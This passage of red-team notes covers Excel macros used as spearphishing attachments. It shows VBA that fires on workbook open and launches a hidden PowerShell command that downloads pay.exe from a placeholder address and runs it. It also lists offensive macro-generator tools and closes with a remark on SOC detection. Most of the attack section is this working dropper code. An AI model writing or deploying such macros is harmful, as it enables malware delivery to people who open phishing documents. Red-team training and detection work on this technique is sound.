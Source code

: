 
##### 1.2.2. Microsoft Excel as Spearphishing Attachment
The same applies to Microsoft Word; make the following changes:
- `AuoOpen` to `Auto_Open`
- `Document_Open()` to `Workbook_Open()`
    ```vb
    Sub Auto_Open()
        myMacro
    End Sub

    Sub Workbook_Open()
        Auto_Open
    End Sub
    ```

An example of modified script used before:
```vb
' The following 2 functions allowed the execution of our macro when the docuemnt is opened
Sub Workbook_Open()
    MyMacro
End Sub

Sub Auto_Open()
    MyMacro
End Sub


Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('https://192.168.x.x/pay.exe', 'pay.exe')"
    Shell str, vbHide
    
    ' The file will dropped on the current file directory, we can execute it from there
    Dim exePath As String
    exePath = ActiveWorkbook.Path + "\pay.exe"
    
    If Application.Wait(Now + TimeValue("0:00:2")) Then
    ' Execute the payload
        Shell exePath, vbHide
    End If
End Sub
```

##### 1.2.3. Tools: Microsoft Offices & Spearphishing Attachment
1. MaliciousMacro MSBuild Generator: <https://github.com/infosecn1nja/MaliciousMacroMSBuild>
2. SpookFlare <https://github.com/hlldz/SpookFlare>
3. BadAssMacros <https://github.com/Inf0secRabbit/BadAssMacros>
5. VBS-Macro-XOR-Generator <https://github.com/xbz0n/VBS-Macro-XOR-Generator>

---
#### 1.3. SOC & Spearphishing Attachment (T1566.001)
After the Red Teaming simulation, it’s the SOC team’s responsibility to analyze, detect, and mitigate such attacks in real-world scenarios.
